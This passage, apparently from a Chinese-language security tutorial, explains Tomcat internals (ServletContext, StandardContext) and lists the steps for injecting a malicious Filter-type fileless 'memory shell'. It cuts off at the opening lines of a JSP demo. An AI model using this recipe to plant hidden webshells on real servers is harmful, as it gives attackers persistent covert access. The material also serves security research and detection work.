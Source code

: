 请参考`Skay`师傅和`yzddmr6`师傅的文章，他们写的非常详细，这里直接贴出链接：

> [https://yzddmr6.com/posts/tomcat-context/](https://yzddmr6.com/posts/tomcat-context/)
> 
> [https://mp.weixin.qq.com/s/BrbkTiCuX4lNEir3y24lew](https://mp.weixin.qq.com/s/BrbkTiCuX4lNEir3y24lew)

引用`Skay`师傅的一句话总结：

`ServletContext`是`Servlet`规范；`org.apache.catalina.core.ApplicationContext`是`ServletContext`的实现；`org.apache.catalina.Context`接口是`tomcat`容器结构中的一种容器，代表的是一个`web`应用程序，是`tomcat`独有的，其标准实现是`org.apache.catalina.core.StandardContext`，是`tomcat`容器的重要组成部分。

关于`StandardContext`的获取方法，除了本文中提到的将我们的`ServletContext`转为`StandardContext`从而获取`context`这个方法，还有以下两种方法：

> 1.  从线程中获取 StandardContext，参考 Litch1 师傅的文章：[https://mp.weixin.qq.com/s/O9Qy0xMen8ufc3ecC33z6A](https://mp.weixin.qq.com/s/O9Qy0xMen8ufc3ecC33z6A)
> 2.  从 MBean 中获取，参考 54simo 师傅的文章：[https://scriptboy.cn/p/tomcat-filter-inject/，不过这位师傅的博客已经关闭了，我们可以看存档：https://web.archive.org/web/20211027223514/https://scriptboy.cn/p/tomcat-filter-inject/](https://scriptboy.cn/p/tomcat-filter-inject/%EF%BC%8C%E4%B8%8D%E8%BF%87%E8%BF%99%E4%BD%8D%E5%B8%88%E5%82%85%E7%9A%84%E5%8D%9A%E5%AE%A2%E5%B7%B2%E7%BB%8F%E5%85%B3%E9%97%AD%E4%BA%86%EF%BC%8C%E6%88%91%E4%BB%AC%E5%8F%AF%E4%BB%A5%E7%9C%8B%E5%AD%98%E6%A1%A3%EF%BC%9Ahttps://web.archive.org/web/20211027223514/https://scriptboy.cn/p/tomcat-filter-inject/)
> 3.  从 spring 运行时的上下文中获取，参考 LandGrey@奇安信观星实验室 师傅的文章：[https://www.anquanke.com/post/id/198886](https://www.anquanke.com/post/id/198886)

这两种方法，如果后面有时间的话我会补充完整。

## 3.2 Filter 内存马

### 3.2.1 简单的 filter 内存马 demo 编写

根据我们在上面的`2.6`节中所讨论的内容，我们可以得出以下结论：

如果我们想要写一个`Filter`内存马，需要经过以下步骤：

> 参考：[https://longlone.top/安全/java/java安全/内存马/Tomcat-Filter型/](https://longlone.top/%E5%AE%89%E5%85%A8/java/java%E5%AE%89%E5%85%A8/%E5%86%85%E5%AD%98%E9%A9%AC/Tomcat-Filter%E5%9E%8B/)

-   获取`StandardContext`；
-   继承并编写一个恶意`filter`；
-   实例化一个`FilterDef`类，包装`filter`并存放到`StandardContext.filterDefs`中；
-   实例化一个`FilterMap`类，将我们的`Filter`和`urlpattern`相对应，使用`addFilterMapBefore`存放到`StandardContext.filterMaps`中；
-   通过反射获取`filterConfigs`，实例化一个`FilterConfig`（`ApplicationFilterConfig`）类，传入`StandardContext`与`filterDefs`，存放到`filterConfig`中。

> 参考：[https://tyaoo.github.io/2021/12/06/Tomcat内存马/](https://tyaoo.github.io/2021/12/06/Tomcat%E5%86%85%E5%AD%98%E9%A9%AC/)

需要注意的是，一定要先修改`filterDef`，再修改`filterMap`，不然会抛出找不到`filterName`的异常。

由以上结论我们可以写出如下内存马`demo`：

```bash
<%@ page import="java.lang.reflect.*" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.io.*" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.util.List" %>
<%@ page import="java.util.ArrayList" %>
<%
    ServletContext servletContext = request.getSession().getServletContext();
```